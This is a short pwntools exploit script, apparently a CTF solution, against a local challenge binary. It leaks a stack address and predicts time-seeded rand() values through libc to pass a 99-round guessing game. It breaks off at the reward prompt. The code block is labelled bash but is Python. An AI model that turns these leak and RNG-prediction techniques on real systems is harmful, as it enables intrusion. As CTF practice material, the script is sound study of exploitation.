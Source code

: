 ### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
libcc = cdll.LoadLibrary('./libc.so.6')
libcc.srand(libcc.time(0))


def duan():
    gdb.attach(p)
    pause()

ru('Menlina: Well tarnished, tell me thy name.\n')
#duan()
#sl("%13$p")

sl('k')

r(8)
stack=u64(p.recv(6).ljust(8,'\x00'))-0xe8

#duan()


for i in range(99): 
    p.recvuntil("Please guess the number:")
    k = libcc.rand() % 100 + 1
    p.send(chr(k))

ru("Here's a reward to thy brilliant mind.\n")
```